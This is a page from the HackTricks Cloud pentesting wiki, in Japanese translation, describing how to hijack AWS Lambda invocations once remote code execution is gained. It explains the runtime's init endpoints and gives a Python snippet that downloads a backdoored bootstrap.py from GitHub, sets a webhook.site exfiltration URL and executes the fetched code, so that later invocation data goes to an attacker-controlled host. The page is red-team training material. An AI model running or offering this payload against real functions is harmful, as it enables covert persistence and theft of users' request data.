 # AWS - Steal Lambda Requests

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Flow

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**はコンテナ外のプロセスで、**init**プロセスに**invocations**を**送信**します。
2. initプロセスはポート**9001**でいくつかの興味深いエンドポイントを公開しています：
* **`/2018-06-01/runtime/invocation/next`** – 次のinvocationイベントを取得
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – invokeのハンドラ応答を返す
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 実行エラーを返す
3. **bootstrap.py**はinitプロセスからinvocationsを取得し、ユーザーコードを呼び出してそれらを処理するループを持っています（**`/next`**）。
4. 最後に、**bootstrap.py**は**response**をinitに送信します。

bootstrapはユーザーコードをモジュールとしてロードするため、ユーザーコードによって実行される任意のコード実行は実際にはこのプロセスで行われます。

## Stealing Lambda Requests

この攻撃の目的は、ユーザーコードが脆弱なリクエストを処理する**`bootstrap.py`**プロセス内で悪意のある**`bootstrap.py`**プロセスを実行するようにすることです。この方法で、**悪意のあるbootstrap**プロセスがinitプロセスと通信を開始し、リクエストを処理する一方で、**正当な**bootstrapは**悪意のあるもの**を実行しているため、initプロセスにリクエストを要求しません。

これは、ユーザーコードが正当な**`bootstrap.py`**プロセスによって実行されているため、簡単に達成できます。攻撃者は次のことができます：

* 現在のinvocationの偽の結果をinitプロセスに送信し、initがbootstrapプロセスがさらにinvocationsを待っていると考えるようにします。
* リクエストは**`/${invoke-id}/response`**に送信される必要があります。
* invoke-idは、正当な**`bootstrap.py`**プロセスのスタックから[**inspect**](https://docs.python.org/3/library/inspect.html) Pythonモジュールを使用して取得するか（[ここで提案されているように](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)）、または**`/2018-06-01/runtime/invocation/next`**に再度リクエストして取得します（[ここで提案されているように](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)）。
* 次のinvocationsを処理する悪意のある**`bootstrap.py`**を実行します。
* ステルス性のために、lambda invocationsのパラメータを攻撃者が制御するC2に送信し、通常通りリクエストを処理することが可能です。
* この攻撃のためには、システムまたは[**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py)から**`bootstrap.py`**の元のコードを取得し、悪意のあるコードを追加して現在のlambda invocationから実行するだけで十分です。

### Attack Steps

1. **RCE**脆弱性を見つけます。
2. **悪意のある** **bootstrap**を生成します（例：[https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py)）
3. 悪意のあるbootstrapを**実行**します。

これらのアクションは簡単に実行できます：
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
詳細については、[https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher) を確認してください。

## 参考文献

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
AWS Hackingを学び、練習する:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hackingを学び、練習する: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f) または [**telegramグループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) をフォローしてください。
* **PRを提出してハッキングトリックを共有する** [**HackTricks**](https://github.com/carlospolop/hacktricks) および [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) githubリポジトリ。

</details>
{% endhint %}
